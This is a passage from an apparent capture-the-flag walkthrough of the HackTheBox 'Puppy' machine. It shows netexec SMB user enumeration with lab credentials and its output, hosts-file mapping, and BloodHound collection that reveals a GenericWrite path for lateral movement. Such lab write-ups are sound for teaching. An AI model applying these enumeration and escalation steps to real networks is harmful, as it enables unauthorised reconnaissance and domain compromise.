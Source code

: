 ```
nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --users | awk '/^SMB/ && $5 ~ /^[a-zA-Z0-9_.]+$/ { print $5 }' | tee -a username.txt 
```
```
┌──(kali㉿kali)-[~/HTB-machine/puppy/my-share]
└─$  nxc smb $IP -u 'levi.james' -p 'KingofAkron2025!' --users | awk '/^SMB/ && $5 ~ /^[a-zA-Z0-9_.]+$/ { print $5 }' | tee -a username.txt 
Administrator
Guest
krbtgt
levi.james
ant.edwards
adam.silver
jamie.williams
steph.cooper
steph.cooper_adm
```


Map the domain controller IP to its hostname and domain for convenience:

```bash
netexec smb 10.10.11.70 --generate-hosts-file puppy.htb
```

Resulting `/etc/hosts` entry:

```text
# Standard localhost entries

# Local hostname

127.0.1.1       kali

10.10.11.70 DCO1.PUPPY.HTB PUPPY.HTB
```


## BloodHound: Enumeration and Lateral Movement

There were no additional interesting findings in SMB, so collect Active Directory data using the provided credentials and analyze it with BloodHound.

Now run `bloodhound-python` to collect AD data:

```
bloodhound-python -dc DC.PUPPY.HTB -u 'levi.james' -p 'KingofAkron2025!' -d PUPPY.HTB -c All --zip -ns $IP                        
```

### GenericWrite

We find that the user `levi.james` is a member of the `HR` group, which has **GenericWrite** permissions over another object `DEVELOPER`.


